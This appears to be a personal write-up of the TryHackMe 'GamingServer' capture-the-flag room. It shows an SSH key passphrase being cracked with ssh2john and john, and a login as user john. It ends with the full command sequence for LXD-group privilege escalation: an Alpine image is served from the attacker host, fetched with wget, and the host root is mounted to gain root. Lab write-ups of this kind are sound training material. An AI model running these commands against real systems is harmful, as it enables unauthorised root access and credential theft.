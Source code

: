 #lxc #lxd

https://tryhackme.com/r/room/gamingserver

---
#### Nmap
![[Screenshot_2024-05-30_12-16-07.png]]
#### Enumeration
![[Screenshot_2024-05-30_12-21-51.png]]

Firstly, I downloaded 3 files from `/uploads`
- `dict.lst`  seems to be a wordlist
- `manifesto.txt` is a long text with, probably, useful information in it
- `meme.jpg` hiding something, maybe

On `/secret`, there is a private rsa key
```shell
ssh2john id_rsa > hash
johh hash --wordlist=/usr/share/wordlists/rockyou.txt
```

The cracked password is `letmein`, now I need the username

There is a page `/about.php` with a file upload but it is in comment, maybe [this](https://github.com/sAjibuu/Upload_Bypass) will help me

I ll be back, soon of a bitch

I am back and the past me was probably drunk: `john:letmein`
```shell
ssh john@10.10.93.198 -i id_rsa
```

And here I m in

The user `john` is in the `lxd` group, so I'll use the alpine cve well explained [here](https://www.hackingarticles.in/lxd-privilege-escalation/)
On my pc, I start to clone the alpine repo and build it as sudo
```shell
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```
Then I serve the `tar.gz` output
```shell
python3 -m http.server 5050
```
I download the archive and import it as image
```shell
wget http://10.14.79.56:5050/alpine-v3.20-x86_64-20240614_1747.tar.gz

lxc image import ./alpine-v3.20-x86_64-20240614_1747.tar.gz --alias myimage
```

Finally I setup the privilege escalation throught the image
```shell
lxc init myimage ignite -c security.privileged=true 

lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true 

lxc start ignite 

lxc exec ignite /bin/sh
```

Then I should go in the mounted root directory
```shell
cd /mnt/root/root
```

And here I m in `/root` as `root`

